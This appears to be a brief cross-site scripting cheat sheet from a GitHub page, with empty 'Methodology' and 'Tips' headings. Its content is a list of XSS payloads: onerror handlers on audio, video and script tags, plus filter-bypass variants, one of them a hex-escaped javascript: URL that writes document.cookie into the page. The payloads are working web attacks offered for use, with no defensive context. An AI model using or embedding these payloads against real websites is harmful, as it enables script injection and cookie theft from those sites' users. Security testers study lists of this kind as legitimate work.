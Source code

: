 
### 1.Methodology


### 2.Tips!


### 3.Payloads
```
<audio src=x onerror=alert(0)>
<video src=x onerror=alert(0)>
<script src=x onerror=alert(0)>
```

#### 3.1 Filter Bypass
```
[1].map(alert)
(alert)(1)
javascript:setTimeout`\x64ocument.write\x28\x64ocument.\x63ookie\x29`
```
